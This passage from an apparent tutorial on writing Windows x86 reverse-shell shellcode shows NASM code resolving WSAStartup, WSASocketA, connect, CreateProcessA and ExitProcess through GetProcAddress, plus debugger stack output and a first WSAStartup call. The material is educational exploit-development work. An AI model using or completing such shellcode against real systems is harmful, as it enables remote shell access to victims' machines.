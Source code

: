 The `connect` function address is now stored at ESI + 0x8 bytes.

We've now safely stored all of our networking functions on the stack. We just need to locate `CreateProcessA` and `ExitProcess` now. Keep in mind these functions are exported from `kernel32.dll`. The `kernel32.dll` address is still stored inside EBX so on this invocation of `GetProcAddress` you'll see me `push ebx`. 

```nasm
; use GetProcAddress to get the location of CreateProcessA
push 0x61614173 
sub word [esp + 0x2], 0x6161
push 0x7365636f
push 0x72506574
push 0x61657243
push esp
push ebx
call edi

mov [esi + 0xc], eax ; esi at offset 0xc will now hold the address of CreateProcessA
```

Lastly, we end our function address hunting by finding `ExitProcess`.

```nasm
; use GetProcAddress to get the location of ExitProcess
push 0x61737365
sub dword [esp + 0x3], 0x61
push 0x636f7250
push 0x74697845
push esp
push ebx
call edi 

mov [esi + 0x10], eax ; esi at offset 0x10 will now hold the address of ExitProcess
```

Lets check out the stack in Immunity Debugger at this point, and see how all of our addresses look on the stack.
```
0022FF60   75353AB2  ²:5u  ws2_32.WSAStartup
0022FF64   7535E562  bå5u  ws2_32.WSASocketA
0022FF68   753568F5  õh5u  ws2_32.connect
0022FF6C   76FD2082  ‚ ýv  kernel32.CreateProcessA
0022FF70   7702BE5A  Z¾ w  kernel32.ExitProcess
```

As you can see, we've neatly and safely placed all of our function addresses on the stack and ESI is currently holding the address `0022FF60`. So we can use this pointer to refer to all of our functions with the appropriate offset. 

### Calling Our Functions

Now that we have our function addresses we can call them and execute our shellcode. If you need to, refer back to the `C++` Prototype for these function calls and their arguments. First we'll call `WSAStartup`. 
```nasm
; call WSAStartup
xor edx, edx
mov dx, 0x0190
sub esp, edx
push esp
push edx
call dword [esi]
```
